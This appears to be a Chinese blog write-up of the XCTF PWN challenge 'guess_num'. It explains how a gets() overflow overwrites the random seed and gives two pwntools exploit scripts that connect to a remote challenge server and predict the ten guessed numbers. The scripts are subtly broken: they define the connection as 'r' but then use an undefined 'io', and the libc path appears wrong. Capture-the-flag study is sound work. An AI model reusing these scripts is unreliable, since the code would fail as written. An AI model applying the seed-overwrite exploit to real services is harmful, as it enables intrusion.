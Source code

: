 ```yaml
---
title: (wp)攻防世界PWN——guess_num
date: 2020-04-02 21:34:48
id: 20200402213448
tags: 
	- CTF
	- PWN
categories: 网络安全
---
```


好久没有做PWN题了，今天开始做一下，把之前的东西捡起来，同时对之前有些知识点也有了新的认识，新的理解。

# 分析

首先将附件下载下来，同时通过nc连接一下，了解一下大致的流程。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220645.png)

可以看到，先让我们输入用户名，然后输入猜的的数字。

然后常规操作，通过`file`和`checksec`工具判断文件类型和开启了那些防护措施。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402220856.png)

可以知道这是一个64位的linux程序，并且开启了部分只读，栈溢出保护，不可执行和地址随机化。

接着我们通过IDA加载，反汇编一下。

IDA加载程序后，`ctrl+F5`查看一下伪代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402221626.png)

我们点击进入`sub_C3E()`，发现它会调用系统函数，打印flag，因此我们要保证程序能执行到这一步。

因此，在`v4`和`v6`比较时我们要保证这两个值相同，其中`v4`是我们的输入值，`v6`是随机数。我们知道这里的随机数是通过种子`seed`来形成的，如果`seed`一定，那么生成的随机数也是一定的。

双击`seed[0]`，可以发现`seed`是在栈帧中的，上面还有`var_30`。

查看汇编代码。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200402222715.png)

在代码中可以找到如下信息：

```assembly
var_30 = byte ptr -30h
seed   = dword ptr -10h

lea     rax, [rbp+var_30]
mov     rdi, rax
mov     eax, 0
call    _gets
mov     rax, qword ptr [rbp+seed]
mov     edi, eax        ; seed
call    _srand
```

我们输入的name，存在栈帧中，占20h，下面高地址位紧跟着seed的值。因此我们可以溢出覆盖掉seed，将种子设置为已知值，从而控制生成的随机数。

写出exp：

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/bin/x86_64-linux-gnu/libc.so.6')
libc.srand(1)
payload = 'A' * 0x20 + p64(1).decode()
r = remote('111.198.29.45', 57255)
r.recvuntil('name:')
r.sendline(payload)
for i in range(10):
    num = str(libc.rand() % 6 + 1)
    io.recvuntil('number:')
    io.sendline(num)

io.interactive()

```

其中so文件的路径是通过`ldd`工具找到的。

在这里，如果我们的开发环境不是在linux下，比如我是在MAC下，那么我们怎么去获得这个so文件呐。

既然没有，那我们是不是可以自己写一个呐，说干就干。

```c
#include<stdio.h>
#include<stdlib.h>

void srand1(){
  srand(1);
}

int rand1(){
  return rand();
}

```

然后通过gcc编译成一个so文件。

```shell
gcc -fPIC -shared g_rand.c -o g_rand.so
```

然后我们在exp中，将文件的路径改为我们生成的so文件，调用变为我们自己的函数，也可以实现。

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('./g_rand.so')
libc.srand1()
payload = 'A' * 0x20 + p64(1).decode()
r = remote('111.198.29.45', 57255)
r.recvuntil('name:')
r.sendline(payload)
for i in range(10):
    num = str(libc.rand1() % 6 + 1)
    io.recvuntil('number:')
    io.sendline(num)

io.interactive()


```

